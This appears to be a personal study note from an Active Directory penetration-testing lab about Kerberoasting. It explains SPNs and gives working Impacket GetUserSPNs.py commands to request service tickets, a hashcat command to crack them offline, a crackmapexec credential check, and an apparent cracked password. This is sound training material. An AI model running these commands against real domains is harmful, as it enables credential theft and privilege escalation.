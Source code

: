 # Kerberoasting Overview
---
- Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments
- This attack **targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts.**
- **SPNs are unique identifiers** that Kerberos uses to **map a service instance to a service account** in **==whose==** **==context the service is running.==**
- Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
- **Any domain user can request a Kerberos ticket for any service accoun**t in the same domain.
- Finding **SPNs associated with highly privileged accounts in a Windows environment is very common.**
- The **ticket (TGS-REP)** is **==encrypted with the service account’s NTLM hash==**, so the cleartext password can potentially be obtained by subjecting it to an offline brute-force attack with a tool such as Hashcat.
- ![[Pasted image 20250809060245.png]]

# Tools
---
Several tools can be utilized to perform the attack:
- **Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)** from a non-domain joined Linux host.
- A combination of the built-in **setspn.exe Windows binary, PowerShell, and Mimikatz.**
- From Windows, utilizing tools such as **PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.**

# Performing the Attack
---
- Kerberoasting attacks are **easily done now using automated tools and scripts**. 
- We will cover performing this attack in various ways, both from a Linux and a Windows attack host. Let's first go through how to do this from a Linux host. 

## Kerberoasting with GetUserSPNs.py
- Listing SPN Accounts with GetUserSPNs.py:
	- `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend`
	- ![[Pasted image 20250809060525.png]]
- Requesting all TGS Tickets:
	- `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request`
	- ![[Pasted image 20250809060559.png]]
	- We can also be more targeted and **==request just the TGS ticket for a specific account.==** 
	- Let's try requesting one for just the `sqldev` account:
		- `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev`
		- ![[Pasted image 20250809060628.png]]

	- To facilitate **==offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file==** that can then be run using Hashcat on our attack system or moved to a GPU cracking rig.

	- Saving the TGS Ticket to an Output File:
		- `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`

## Cracking the Ticket Offline with Hashcat:
- `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt `
## Testing Authentication against a Domain Controller:
- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!`
- `Klmcargo2`